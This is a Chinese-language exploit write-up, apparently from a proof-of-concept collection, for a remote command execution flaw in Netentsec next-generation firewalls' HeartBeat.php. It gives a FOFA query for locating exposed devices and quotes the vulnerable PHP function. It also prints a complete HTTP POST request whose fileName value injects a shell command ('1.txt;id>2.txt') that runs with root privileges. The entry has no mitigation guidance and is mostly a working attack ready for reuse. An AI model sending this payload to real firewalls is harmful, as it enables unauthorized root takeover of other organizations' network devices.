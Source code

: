 # 网康 下一代防火墙 HeartBeat.php 远程命令执行漏洞

## 漏洞描述

网康 下一代防火墙 HeartBeat.php文件存在远程命令执行漏洞，攻击者通过构造请求包即可获取服务器Root权限

## 漏洞影响

<a-checkbox checked> 奇安信 网康下一代防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked> app="网康科技-下一代防火墙"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/1649263762930-86ac1706-31bd-42c5-9b5f-822e695eac7b.png)

出现漏洞的文件 **applications/Models/NS/Rpc/HeartBeat.php**

![img](../../../.vuepress/public/img/1649263844774-f32c96ef-f93e-463a-aeee-bb5f7a567718.png)

```php
public function delTestFile($fileName){
	    if(dirname($fileName) == '/var/www/tmp'){
		$cmd = "/bin/rm -f {$fileName}";
		putenv("CMD=$cmd");
		$msg = shell_exec('/var/www/html/scripts/exec_cmd');
	    }
	    return time();
	}
```

调用方法 delTestFile，fileName参数可控，调用的 exec_cmd 文件为Root权限文件，构造请求包进行命令执行

```php
POST /directdata/direct/router HTTP/1.1
Host: 
Connection: close
Content-Length: 179
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

{"action":"NS_Rpc_HeartBeat","method":"delTestFile","data": ["/var/www/tmp/1.txt;id>2.txt"],"type":"rpc","tid":11,"f8839p7rqtj":"="}
```

![img](../../../.vuepress/public/img/1649264137977-dad6f7f8-adce-4189-856b-c564d8ba8a75.png)

访问写入的文件

![img](../../../.vuepress/public/img/1649264181844-e562d3ea-a6cd-469c-9c8b-3998deed5bc3.png)